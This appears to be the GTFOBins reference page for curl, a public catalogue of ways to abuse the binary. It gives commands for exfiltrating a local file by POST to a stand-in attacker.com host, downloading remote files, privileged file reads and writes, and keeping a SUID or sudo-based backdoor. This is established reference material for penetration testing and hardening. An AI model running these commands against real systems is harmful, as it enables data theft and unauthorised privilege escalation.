 # GTFOBin: curl

## File upload

It can exfiltrate files on the network.

Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.

```
URL=http://attacker.com/
LFILE=file_to_send
curl -X POST -d "@$LFILE" $URL
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
curl $URL -o $LFILE
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The file path must be absolute.

```
LFILE=file_to_write
TF=$(mktemp)
echo DATA >$TF
curl "file://$TF" -o "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file path must be absolute.

```
LFILE=/tmp/file_to_read
curl file://$LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Fetch a remote file via HTTP GET request.

```
sudo install -m =xs $(which curl) .

URL=http://attacker.com/file_to_get
LFILE=file_to_save
./curl $URL -o $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Fetch a remote file via HTTP GET request.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo curl $URL -o $LFILE
```